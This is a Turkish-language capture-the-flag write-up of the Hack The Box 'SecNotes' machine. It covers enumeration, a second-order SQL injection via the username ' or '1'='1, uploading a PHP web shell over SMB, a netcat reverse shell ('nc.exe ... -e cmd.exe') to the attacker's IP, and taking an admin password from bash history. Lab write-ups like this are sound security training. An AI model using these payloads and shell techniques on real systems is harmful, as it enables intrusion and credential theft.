## SECNOTES

Çözülecek olan zafiyetli makine, Hack The Box Pen-Test Labs (www.hackthebox.eu) laboratuvarında yer almaktadır. Makine adı: SecNotes.
İlk olarak makinenin IP adresi ile **nmap** aracı kullanılarak port taraması gerçekleştirildi.  Nmap aracına *-A* parametresi eklenerek; güncel servis taraması, servisler için güncel versiyon taraması, işletim sistemi versiyon taraması, traceroute ve script taraması, *-p-* parametresi ile full port taraması yapıldı. Sonuçlar Resim 1'de görülmektedir.



Resim 1 - Port Taraması

Yapılan tarama sonucunda 80, 445 ve 8808 portlarının açık olduğu tespit edildi. 80 ve 8808 portları IIS (Internet Information Services) sunucusu, 445. port ise SMB portu tarafından kullanılmaktadır. İşletim sistemi versiyonunun **Windows 10 Enterprise 6.3** olduğu, makine NETBIOS adının **SECNOTES** olduğu, WORKGROUP adının ise **HTB** olduğu tespit edildi.

İlk olarak, web sunucusu çalıştığı için sunucuda bulunan dosya ve dizinleri tespit etmek amacı ile kelime listesine bağlı olarak brute force yöntemi ile dosya ve dizileri ortaya çıkaracak olan **dirbuster** aracı çalıştırıldı.

Resim 2 -Dirbuster

Resim 3 -Dirbuster Arayüzü

Açılan uygulamanın *Target URL* parametresine **http://10.10.10.97:80** yazılarak URL belirtildi. *File with list of dirs/files* parametresine **/usr/share/wordlists/dirbuster/** yolunda bulunan **directory-list-lowercase-2.3-medium.txt** dosya atanarak, brute force yönteminin kullancağı kelime listesi belirlendi. Tarayıcı üzerinden 10.10.10.97 adresine erişildiğinde **login.php** sayfası gelmektedir. Sitenin PHP programlama dili ile kodlandığı anlaşıldığı için *File extension* parametresinin değeri **php** olarak belirlendi ve brute force başlatıldı.



Resim 4 -Dirbuster Parametre Değerleri

Çıkan sonuçlara göre Resim 5'de görünen dosyalar tespit edildi.

Resim 5 -Dirbuster Bulunan Dosyalar

Anlaşıldığı üzere, site üzerinde dikkat çekecek olan, login.php, register.php, home.php, contact.php ve db.php sayfaları bulunmaktadır. Bu sayfaların bulunması,sitenin; bir kullanıcı kaydı alıp, o kaydı veritabanına kaydettiği ve kullanıcı giriş yaptığı zaman bilgileri veritabanından çektiği şekilde çalıştığı anlaşılmaktadır. Dolayısıyla bu site üzerinde bir **SQL Injection** zafiyeti bulunabilir. Bunu manuel olarak test etmek amacı ile, önce register.php sayfasından normal bir kullanıcı kaydı yapıldı.



Resim 6 -Normal Kullanıcı Kaydı

Kayıt sonrasında register.php sayfası, **login.php** sayfasına yönlendirdi. login.php sayfası üzerinden giriş yapılarak kullanıcı arayüzüne erişildi.



Resim 7 -Kullanıcı Girişi



Resim 8 -Kullanıcı Arayüzü

Normal bir kullanıcı kaydı gerçekleştirildiğinde veritabanına kayıt işlemi yapılıyor ve veritabanından o kullanıcı çekilip arayüze yönleneceği zaman, **SELECT * FROM users WHERE username='piyadist'** gibi bir sorgu çalışıyor. Dolayısıyla eğer kullanıcı kaydı yapılırken, kullanıcı adının sonuna bir **'** işareti atılır ve kayıt bu şekilde yapılırsa, giriş yapılacağı zaman sorguda fazladan bir adet tırnak işareti bulunacağı için hata meydana gelecektir. Bunun için **piyadist'** şeklinde kullanıcı adı girilerek bir kez daha kayıt yapıldı.



Resim 9 -Yeni Kayıt

Kayıt yapıldıktan sonra kullanıcı girişi yapıldı ve Resim 11'de görüldüğü üzere hata ile karşılaşıldı.



Resim 10 -Kullanıcı Girişi

Resim 11 - SQL Hatası

Eğer bu zafiyeti sömürebilecek uygun bir kullanıcı adı yazılır ve kayıt yapılırsa, giriş yapıldığı zaman hata almak yerine, erişilmesi istenilmeyen bir kullanıcıya erişilecektir. Bunun için kullanıcı adı yerine, kullanıcı girişi yapıldığı zaman hata döndürmeyecek bir syntax olarak **' or '1'='1** yazılabilir. Böylece sorgu **SELECT * FROM users WHERE username='' or '1'='1'** gibi bir hal alacak ve hata alınmayacaktır.

Resim 12 - SQL Injection Zafiyet İstismarı için Kullanıcı Kaydı

Kayıt işleminden sonra giriş yapıldı ve Resim 14'te görüldüğü üzere hata alınmadı ve bir kullanıcı arayüzü ile karşılaşıldı.



Resim 13 - Kullanıcı Girişi

Resim 14 - Kullanıcı Arayüzü

Resim 14'te görüldüğü üzere, normal kayıtlardan farklı olarak ' or '1'='1 kullanıcısı ile yapılan ilk girişte 3 adet not listelendi. Çünkü, sisteme ilk giriş yapıldığında, notların listelenmesi için **SELECT notlar FROM not WHERE username='' or '1'='1'** gibi bir sorgu   çalıştı. Bu sorgu ile birlikte 1=1 şartı her defasında sağlanacağı için, sadece paneline erişilen bu kullanıcı değil, sistemde kayıtlı olan tüm kullanıcıların notları listelendi. Böylece SQL Injection zafiyeti istismar edilmiş oldu.

Notlara bakıldığı zaman, **new site** adlı not içerisinde; bir yol, kullanıcı adı ve parola bulunmaktadır. Bu yol **secnotes.htb** adlı domain içerisinde bulunan new-site adlı dizinin yoludur. Bu yola SMB protokolü ile erişilebilir.

Resim 15 - SMB Kullanıcı Erişim Bilgileri

**smbclient** adlı program aracılığıyla, bu kullanıcı bilgileri ile new-site dizinine erişilebilir. Bu dizin 8808 portunda çalışan IIS sunucusuna ait dosyalardır.

Resim 16 - Smbclient

Resim 16' da görüldüğü üzere, smbclient komutuna parametre olarak öncelikle erişilecek dosya yolu verildi. Ardından -U parametresi ile **NETBIOS adı/Kullanıcı adı%parola** biçiminde kullanıcı bilgileri girildi ve erişim sağlandı. d

SMB protokolü Windows sistemlerde, paylaşıma açık dosyalara erişmek için kullanılır. Şu an new-site adlı erişime açık dizine erişildi. Fakat makinenin bu kısmına erişmek yetersiz kalacaktır. Bunun için bu dizine bir shell dosyası atılarak, makineye erişim sağlanabilir. Öncelikle new-site dizininin tyler kullanıcısı için yazılabilir bir dizin olduğunu test etmek amacı ile bir metin dosyası oluşturup **put** komutu ile çalıştırıldı.

Resim 17 - Smbclient Dosya Yazma

Resim 17'de görüldüğü üzere, a.txt dosyası new-site adlı dizine yazıldı. Yani bir shell dosyası bu dizine atılarak, makineye erişmemizi sağlayabilir. Bunun için **p0wnyshell** adında, PHP programlama dili yazılmış bir shell dosyası bulunmaktadır. Bu dosya web tarayıcısı üzerinden bir komut satırı uygulaması sunmakta, ve girilen terminal komutlarına göre işlemler gerçekleştirmektedir. Öncelikle bu dosya github üzerinden indirildi.

Resim 18 - Github P0wnyShell

İndirilen dosya smbclient üzerinden new-site adlı dizine yazıldı.

Resim 19 - New-Site P0wnyShell

Web tarayıcısı üzerinden 10.10.10.97:8808/shell.php adresi yazılarak shell elde edilmiş oldu.



Resim 20 - P0wnyShell

Böylece user.txt dosyası okunarak **Own User Flag** elde edildi.



Resim 21 - Own User Flag

Bu aşamadan sonra hak yükseltme işlemi için işlemler gerçekleştirildi. 'tyler' kullanıcısının **Desktop** dizininde birtakım uygulamaların kısa yolları bulunmaktadır. Bu uygulamalar arasında **bash.lnk** uygulaması bulunmaktadır. Bu dosya **bash.exe** uygulamasının kısayoludur. bash.exe uygulaması ile Windows sistemlerde bir Linux terminali çalıştırılarak, Linux komutları ile kontrol edilebilir. Bunun için bash.exe uygulaması çalıştırılmalıdır fakat p0wnyshell arayüzünde böyle bir durum söz konusu değildir. p0wnyshell uygulaması bash.exe uygulamasını çalıştırabilir fakat bash.exe'nin terminalini sunmaz. Bunun için **netcat** uygulaması çalıştırılarak, KALI makinesi üzerinden bir reverse shell alınarak shell buradan yönetilebilir. Bunun için smbclient ile nc.exe uygulaması new-site dizinine yazıldı.

Resim 22 - Netcat

KALI makinesi ile reverse shell almak için, 9999 numaralı porttan dinleme modu başlatıldı.

Resim 23 - Netcat Dinleme Modu

p0wnyshell üzerinden **nc.exe 10.10.15.67 9999 -e cmd.exe** komutu çalıştırıldı.

Resim 24 - P0wnyShell

Bu komut ile KALI yerel adresi ve dinleme portu yazılarak, -e parametresi KALI üzerinde **cmd.exe** uygulaması çalıştırılması için istek gönderildi. Böylece SECNOTES makinesi KALI makinemize bağlanarak reverse shell almamızı sağlayacaktır.

Resim 25 - Reverse Shell

tyler kullanıcısının Desktop dizinine gidildi ve **bash.lnk** uygulaması başlatıldı. Asıl konumundan bash.exe uygulamasının başlatılması için **dir /s bash.exe** komutu ile C:\ dizini üzerinden arama başlatılabilir ve o konuma gidilerek uygulama başlatılabilir.



Resim 26 - bash.exe

Çalışan uygulamada her komutun başında işaret görebilmek için, **python -c 'import pty; pty.spawn("/bin/sh")'** komutu çalıştırıldı.

Resim 27 - Python Spawn Shell

**#** işareti **root** kullancısı hak ve yetkilerine sahip olduğumuz anlamına gelmektedir. Fakat bu root kullanıcısının Administrator adlı hesap ile bir bağlantısı yoktur. Yani Administrator'a erişimi kısıtlıdır.

Tekrar bash.exe içerisinde bir bash.exe uygulaması çalıştırıldı ve başlangıçta bir Windows makine içerisinde Linux makineye erişmek gibi bir durum varken, bash.exe tekrar çalıştırılarak, Linux üzerinden Windows üzerinde bulunan bash.exe çalışıtırılarak, Linux üzerinden Windows makineye erişildi. Ardından **history** komutu ile bash.exe uygulaması üzerinden neler yapıldığının incelenmsi için geçmiş görüntülendi.

Resim 28 - History

Resim 28'de görüldüğü üzere geçmişte Administrator hesabına smbclient ile erişmeye çalışılmış. 18. satırda smbclient komutu ve beraberinde Administrator hesabının parolası bulunmaktadır.

Administrator hesabı ile smbclient programı kullanılarak, Administrator dizinine erişebilmeyi sağlayacak olan **C$** dizinine erişildi.

Resim 29 - Smbclient Administrator Erişimi

C$ dizininden Administrator hesabının Desktop dizinine erişildi ve root.txt görüntülendi.

Resim 30 - root.txt

root.txt **more** komutu ile okunarak **Own Systen Flag** elde edildi.

Resim 31 - Own System Flag

RAMİN KARIMKHANI
